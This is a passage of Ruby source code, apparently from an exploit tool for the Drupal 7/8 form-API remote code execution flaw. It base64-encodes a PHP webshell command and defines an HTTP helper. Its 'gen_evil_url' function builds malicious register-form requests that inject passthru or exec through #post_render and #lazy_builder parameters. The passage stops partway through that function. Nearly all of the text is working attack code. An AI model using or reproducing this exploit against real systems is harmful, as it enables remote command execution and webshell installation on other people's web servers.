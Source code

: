 ```ruby
bashcmd = "echo " + Base64.strict_encode64(bashcmd) + " | base64 -d" # encode the webshell php code. Then concatenate how it gets decrypted.

# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

# Function http_request <url> [type] [data]
def http_request(url, type="get", payload="", cookie="")
  puts verbose("HTTP - URL : #{url}") if $verbose
  puts verbose("HTTP - Type: #{type}") if $verbose
  puts verbose("HTTP - Data: #{payload}") if not payload.empty? and $verbose

  begin
    uri = URI(url)
    request = type =~ /get/? Net::HTTP::Get.new(uri.request_uri) : Net::HTTP::Post.new(uri.request_uri)
    request.initialize_http_header({"User-Agent" => $useragent})
    request.initialize_http_header("Cookie" => cookie) if not cookie.empty?
    request.body = payload if not payload.empty?
    return $http.request(request)
  rescue SocketError
    puts error("Network connectivity issue")
  rescue Errno::ECONNREFUSED => e
    puts error("The target is down ~ #{e.message}")
    puts error("Maybe try disabling the proxy (#{$proxy_addr}:#{$proxy_port})...") if $proxy_addr
  rescue Timeout::Error => e
    puts error("The target timed out ~ #{e.message}")
  end

  # If we got here, something went wrong.
  exit
end


# Function gen_evil_url <cmd> [method] [shell] [phpfunction]
def gen_evil_url(evil, element="", shell=false, phpfunction="passthru")
  puts info("Payload: #{evil}") if not shell
  puts verbose("Element    : #{element}") if not shell and not element.empty? and $verbose
  puts verbose("PHP fn     : #{phpfunction}") if not shell and $verbose

  # Vulnerable parameters: #access_callback / #lazy_builder / #pre_render / #post_render
  # Check the version to match the payload
  if $drupalverion.start_with?("8") and element == "mail"
    # Method #1 - Drupal v8.x: mail, #post_render - HTTP 200
    url = $target + $clean_url + $form + "?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
    payload = "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=" + phpfunction + "&mail[a][#type]=markup&mail[a][#markup]=" + evil

  elsif $drupalverion.start_with?("8") and element == "timezone"
    # Method #2 - Drupal v8.x: timezone, #lazy_builder - HTTP 500 if phpfunction=exec // HTTP 200 if phpfunction=passthru
    url = $target + $clean_url + $form + "?element_parents=timezone/timezone/%23value&ajax_form=1&_wrapper_format=drupal_ajax"
    payload = "form_id=user_register_form&_drupal_ajax=1&timezone[a][#lazy_builder][]=" + phpfunction + "&timezone[a][#lazy_builder][][]=" + evil

    #puts warning("WARNING: May benefit to use a PHP web shell") if not try_phpshell and phpfunction != "passthru"

  elsif $drupalverion.start_with?("7") and element == "name"
    # Method #3 - Drupal v7.x: name, #post_render - HTTP 200
    url = $target + "#{$clean_url}#{$form}&name[%23post_render][]=" + phpfunction + "&name[%23type]=markup&name[%23markup]=" + evil
```